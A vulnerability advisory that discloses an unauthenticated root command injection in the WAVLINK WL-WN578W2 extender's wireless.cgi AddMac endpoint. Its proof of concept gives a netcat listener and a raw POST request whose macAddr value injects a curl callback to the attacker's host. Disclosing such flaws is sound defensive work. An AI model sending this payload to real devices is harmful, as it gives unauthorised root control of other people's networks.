 # WAVLINK WL-WN578W2 M78W2\_V221110 Unauthenticated Command Injection (wireless.cgi AddMac)

PS:



1.  Use physical WAVLINK WL-WN578W2 for testing (QEMU simulation is difficult).

2.  **No authentication required**: No cookie or login credentials needed—vulnerability exploitable directly.

## Overview

An unauthenticated command injection vulnerability exists in the `AddMac` action of `/cgi-bin/wireless.cgi` (WAVLINK WL-WN578W2, firmware M78W2\_V221110). The `macAddr` parameter is unsanitized and directly concatenated into system commands. Attackers can send POST requests with `page=AddMac` and inject arbitrary commands via `macAddr`—no login required—to execute `root`-level operations.



![Vulnerability Flow: Unauthenticated Injection](./imgs/1.png)

## Details



*   **Vendor**: WAVLINK

*   **Product**: WL-WN578W2 (wireless range extender)

*   **Firmware**: M78W2\_V221110

*   **Endpoint**: `/cgi-bin/wireless.cgi` (POST, `page=AddMac`)

*   **Vulnerable Parameter**: `macAddr`

*   **Type**: Unauthenticated Command Injection

*   **Impact**: Execute arbitrary `root` commands (exfiltrate data, plant backdoors) without credentials

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description



1.  **No Effective Auth Check**: The `ftext` function’s authentication logic (via `sub_404DBC()`) is ineffective, allowing unauthenticated requests to proceed.

2.  **Action Routing**: When `page=AddMac` is parsed, the `sub_4030F8` function is called to process the request.

3.  **Unsanitized Injection**: `macAddr` is extracted and directly concatenated into the command `addmac %s` via `sprintf`, with no filtering of separators (e.g., `;`). This allows unauthenticated attackers to inject arbitrary commands.



![Vulnerability Code Snippet](./imgs/2.png)



![Vulnerability Code Snippet](./imgs/3.png)

## Proof of Concept (PoC)

### PoC: Inject `curl` via `macAddr`

No login or cookie needed.

#### 1. Start Netcat Listener

On attacker machine (IP: 192.168.10.154):



```
nc -lvnp 1234
```



#### 2. Send Unauthenticated POST Request



```
POST /cgi-bin/wireless.cgi HTTP/1.1
Host: wifi.wavlink.com
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

page=AddMac&addMac=&addName=&macAddr=;curl http://192.168.10.154:1234
```

#### 3. Verify Execution

Netcat receives request from device, confirming command injection success:
![Netcat Listener](./imgs/4.png)
